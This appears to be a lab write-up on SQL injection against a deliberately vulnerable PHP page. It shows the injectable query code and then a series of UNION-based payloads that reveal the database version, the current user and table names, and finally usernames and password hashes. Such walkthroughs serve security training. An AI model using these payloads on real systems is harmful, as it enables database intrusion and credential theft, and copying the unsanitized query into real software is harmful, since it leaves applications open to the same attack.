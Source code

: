 #SourceCode

```
<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );

    // Get results
    $num = mysql_numrows( $result );
    $i   = 0;
    while( $i < $num ) {
        // Get values
        $first = mysql_result( $result, $i, "first_name" );
        $last  = mysql_result( $result, $i, "last_name" );

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";

        // Increase loop count
        $i++;
    }

    mysql_close();
}

?> 
```

```
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
```
if input the "1' or 1=1-- -"
```
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '1' or 1=1-- -';";
```





![image](https://user-images.githubusercontent.com/75846902/213949910-e16ed004-c048-43aa-9294-e9b617d35435.png)

payload

```%' or 1=1-- -```

detect to version

![image](https://user-images.githubusercontent.com/75846902/213949995-0a507d40-009c-49a7-b9e4-1756b5d3145e.png)

payload

```%' or 1=1 union select null,version()-- -```

detect to user

![image](https://user-images.githubusercontent.com/75846902/213950162-6dfe6380-7714-4866-bf7f-0d8a558c6e84.png)

payload

```%' or 1=1 union select null,user()-- -```

detect to table

![image](https://user-images.githubusercontent.com/75846902/213950250-3395d0c4-7424-47fa-a05d-035f1558b357.png)

payload

```%' or 1=1 union select null,table_name from information_schema.tables-- -```

detect to table_name 'user'

![image](https://user-images.githubusercontent.com/75846902/213950803-ab3c7679-e56e-4e0c-aa03-60a32836160d.png)

payload

```%' or 1=1 union select null,table_name from information_schema.tables where table_name like 'user%'-- -```


detect to columns from users_table

![image](https://user-images.githubusercontent.com/75846902/213950769-8a858d77-ab33-4ded-9667-55b56e0424db.png)

payload

```'%' or 1=1 union select null, concat(user,0x0a,password) from users-- -'```

